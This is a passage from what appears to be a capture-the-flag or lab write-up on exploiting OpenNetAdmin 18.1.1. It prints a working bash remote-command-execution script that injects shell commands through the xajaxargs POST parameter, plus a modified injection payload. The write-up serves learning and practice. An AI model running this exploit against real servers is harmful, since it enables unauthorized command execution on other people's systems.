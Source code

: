 There are two exploits available for version 18.1.1 - coincidence?! They are both for RCE, one Metasploit, and one shell script. I picked the shell script and started digging deeper...

The exploit has an introduction with some links and information. The contents of the script are a `curl` command that seems to take two arguments - a `host` and a `cmd`. The full contents of the script are:

```none
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Looking at the payload in the exploit - it looks like a request I noticed in Burp, where a similar POST request is used.

![OpenNetAdmin - Burp Request](screenshots/80_ona_burp.png)

Grabbed the POST request information from the exploit and modified it a little. Looked like the exploit is trying to inject a command into one of the three `xajaxargs` parameters. 


```none
xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id;&xajaxargs[]=ping
```
